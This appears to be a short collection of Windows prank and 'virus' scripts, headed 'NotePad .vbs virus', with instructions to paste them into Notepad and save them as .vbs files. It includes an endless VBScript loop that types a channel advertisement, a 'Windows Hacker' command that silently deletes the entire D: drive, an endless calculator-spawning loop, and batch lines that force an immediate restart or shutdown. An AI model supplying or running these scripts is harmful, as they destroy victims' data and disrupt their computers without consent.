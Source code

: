 
***NotePad .vbs virus*** 

Code:-
======================================================
Auto Typing :-

do

Set wshshell = wscript.CreateObject("WScript.Shell") 

Wshshell.run "Notepad" 

wscript.sleep 100

wshshell.sendkeys "S"

wscript.sleep 100

wshshell.sendkeys "u"

wscript.sleep 100

wshshell.sendkeys " b"

wscript.sleep 100

wshshell.sendkeys "s"

wscript.sleep 100

wshshell.sendkeys "c"

wscript.sleep 100

wshshell.sendkeys "r"

wscript.sleep 100

wshshell.sendkeys "i"

wscript.sleep 100

wshshell.sendkeys " b"

wscript.sleep 100

wshshell.sendkeys "e"

wscript.sleep 100

wshshell.sendkeys ""

wscript.sleep 100

wshshell.sendkeys " H"


wscript.sleep 100

wshshell.sendkeys "I"

wscript.sleep 100

wshshell.sendkeys "D"

wscript.sleep 100

wshshell.sendkeys "E"

wscript.sleep 100

wshshell.sendkeys " "

wscript.sleep 100

wshshell.sendkeys "L"

wscript.sleep 100

wshshell.sendkeys "A"

wscript.sleep 100

wshshell.sendkeys "B"

wscript.sleep 100

wshshell.sendkeys ""

wscript.sleep 100

wshshell.sendkeys " Y"

wscript.sleep 100

wshshell.sendkeys "o"

wscript.sleep 100

wshshell.sendkeys "u"

wscript.sleep 100

wshshell.sendkeys ""

wscript.sleep 100

wshshell.sendkeys "T"

wscript.sleep 100

wshshell.sendkeys "u"

wscript.sleep 100

wshshell.sendkeys "b"

wscript.sleep 100

wshshell.sendkeys "e"

wscript.sleep 100

wshshell.sendkeys ""

wscript.sleep 100

wshshell.sendkeys "C"

wscript.sleep 100

wshshell.sendkeys "h"

wscript.sleep 100

wshshell.sendkeys "a"

wscript.sleep 100

wshshell.sendkeys "n"

wscript.sleep 100

wshshell.sendkeys "n"

wscript.sleep 100

wshshell.sendkeys "e"

wscript.sleep 100

wshshell.sendkeys "l"

loop

======================================================

Copy & Past new note pad window

Save as .vbs file

=======================================================

Windows Hacker :-

rd/s/q D:\

======================================================

Infinite Calculator :-

msgbox "Press OK to open my computer"

do

Set shell=CreateObject("wscript.shell")

Shell.Run("calc.exe")

loop


=====================================================

Unfortunate Restart

@echo off

shutdown -r -f -t 00

======================================================

April Fool

msg * I don't like you

shutdown -c "Error! You are too stupid!" -s




**🔥Code🚀**


***Dev:-Savindu Deshan (Saviya)***
